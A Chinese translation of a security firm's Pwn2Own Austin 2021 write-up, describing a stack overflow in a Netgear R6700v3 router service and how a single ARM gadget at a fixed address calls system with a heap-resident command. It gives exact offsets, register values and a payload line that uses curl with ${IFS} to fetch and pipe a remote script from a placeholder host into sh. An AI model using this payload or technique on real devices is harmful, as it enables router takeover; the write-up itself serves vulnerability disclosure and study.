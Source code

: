 在处理堆栈溢出时，可以将执行流重定向到堆栈，但在此上下文中，堆栈是不可执行的。通常，不可执行的内存区域问题可以用面向返回编程（Return Oriented Programming, ROP）通过链接所谓的“gadget”来解决，但我们发现了一个懒惰的“one gadget”解决方案，它不是特别完美，但有工作的优点。

该漏洞允许我们溢出堆栈和重写一些保存的寄存器，$R4 到 $R11 和 $PC。我们希望将流重定向到某个已知的可执行内存区域。在这个设备上，ASLR 是不完全的，我们的二进制文件没有被编译为 PIE，因此代码位于 `0x8000`。发生溢出的原因是格式字符串，这意味着我们不能写入空字节（字符串末尾的一个除外）。

我们发现了一个 gadget，它允许我们用一个控制参数调用 `system`，这就是我们所使用的。

##### 使用已知的字符串通过系统执行

我们在这里唯一控制的是用于漏洞的长字符串。它是用 `sscanf` 读取的，因此我们不能注入空字节、空格或返回回车，但它足以构建一个 shell 脚本。

代码操作的字符串在某个时候结束在堆中。当 `/proc/sys/kernel/randomize_va_space` 被设为 1 时，我们知道堆将总是位于数据段之后，并且由于二进制文件不是位置独立可执行文件（PIE），地址将总是相同的。

我们选择遵循这个思路，用 $R0 指向堆内存中的某个位置来调用 `system`。当进程在崩溃后重新启动时，我们几乎可以无限地尝试寻找合适的地址，唯一的限制是由 Pwn2Own 上下文中的 ZDI 规则设置的最大时间条件。

#### 找到“magic” gadget

通过探索所有指向 `system` 函数的 gadget ，我们可以看到偏移量 `0xEC78`：

```shell
$ arm-linux-gnueabi-objdump -d circled | grep -B2 system
 (...)
 --
 ec78:   e59d2084   ldr   r2, [sp, #132] ; 0x84
 ec7c:   e0840002   add   r0, r4, r2
 ec80:   ebffea06   bl    94a0 
 --
$
```

我们用溢出来控制 $R4 的值，因此我们可以强制 ADD R0,R4,R2 的结果最终控制 $R0，从而控制 `system` 参数。

$R2 的值可以找到，它是一个参数，用于在触发寄存器恢复的 `ret` 指令之前使用的格式字符串，并且总是等于 `0xFFFF7954`。

堆边界是 `0x1c000 - 0x21000`，因此我们可以通过向其添加 `0x86ac` 来针对这些地址，因为将用上面提到的gadget 减去它。我们最终得到了像 `0x000266ac` 这样的值，它需要用一个空字节写入。

该漏洞可以被触发两次，格式为：`%s %s`。这两个变量都可能溢出堆栈和重写寄存器。我们可以使用第一种格式溢出所有保存的寄存器，直到 $PC，第二种格式溢出所保存的 $R4 中的三个字节。终止的空字节将放入所需的值。

通过这两个溢出，我们可以用一个受控地址调用 `system` 函数。

#### 强行使用堆内存

我们知道堆将包含 circleinfo.txt 字符串的一部分。一种策略可以是在不带任何空格或回车的情况下写入命令，然后逐个尝试堆中的每个地址，直到找到命令的第一个字符。我们知道更新过程会在崩溃后重新启动，因此我们最终将获得正确的地址。

正如我们在动态分析中发现的那样，字符串的开头通常会被后续的堆分配覆盖，因此我们将命令几乎放在字符串的末尾。`circleinfo.txt` 文件将包含这一行：

```shell
$ cat /tmp/circleinfo.txt
AA(...)curl${IFS}-k${IFS}https://A.B.C.D/exploit|sh;<saved_pc> AA(...)curl${IFS}-k${IFS}https://A.B.C.D/exploit|sh;<saved_R4>
```

包含：
- saved_PC 等于魔术 gadget \x78\xEC (LSB形式)
- saved_R4 从 0x246ac 到 0x296ac 解析堆


[#]: subject: "PWN2OWN AUSTIN 2021 : DEFEATING THE NETGEAR R6700V3"
[#]: via: "https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3.html"
[#]: author: "Kevin Denis, Antide Petit"
[#]: collector: "Licae"
[#]: translator: "b1lack"
[#]: reviewer: "firmianay"
[#]: publisher: "firmianay"
[#]: url: " "
[1]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27646
[2]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-27644
[3]: https://blog.grimm-co.com/2021/09/mama-always-told-me-not-to-trust.html
[4]: https://github.com/synacktiv/Netgear_Pwn2Own2021